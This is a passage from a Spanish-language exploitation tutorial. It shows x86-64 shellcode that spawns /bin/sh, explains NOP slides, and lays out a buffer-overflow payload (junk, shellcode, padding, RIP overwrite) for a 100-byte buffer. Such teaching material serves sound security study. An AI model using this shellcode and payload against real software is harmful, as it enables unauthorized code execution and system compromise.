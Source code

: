 ```
```
section .text
  global _start
    _start:
      push rax
      xor rdx, rdx
      xor rsi, rsi
      mov rbx,'/bin//sh'
      push rbx
      push rsp
      pop rdi
      mov al, 59
      syscall
```

Tambien para poder usar una shellcode correctamente tenemos que hacer uso de los NOPs o NOP-slides

Lo que nos permiten los NOPs es deslizar el programa hacia un destino, se interpretan con el valor ```\x90```

### Ubicando nuestra shellcode en la memoria

El primer paso que haremos es ubicar nuestra shellcode en la memoria y lo haremos de la siguiente forma

Hay que recordar que tenemos un buffer de 100 que se esta declarando asi ```char buf[100]```

En estos 100 bytes tenemos que lograr ubicar nuestra shellcode de 24 bytes, asi que para eso restaremos 100 - 24 bytes de la shellcode y nos da 76, este 76 sera el junk que llenaremos de NOPs para llenar el buffer de ```100```, los otros 24 bytes restantes son de la shellcode, hasta ahora nuestro payload va asi:

```
 76 bytes + 24 bytes = 100 bytes
|---------|-----------|
|  junk   | shellcode |
|---------|-----------|
```

Tambien le sumaremos 20 NOPs que corresponden al padding, si hacemos una suma de lo que llevamos hasta ahora nos da 120 y nuestro payload va asi:

```
 76 bytes +  24 bytes + 20 bytes = 120 bytes
|---------|-----------|---------|
|  junk   | shellcode | padding |
|---------|-----------|---------|

```
Por ultimo le pasaremos 8 bytes mas para sobreescribir el RIP y el payload queda asi:

```
 76 bytes +  24 bytes + 20 bytes + 8 bytes = 128 bytes
|---------|-----------|----------|--------|
|  junk   | shellcode | padding  |  RIP   |
|---------|-----------|----------|--------|
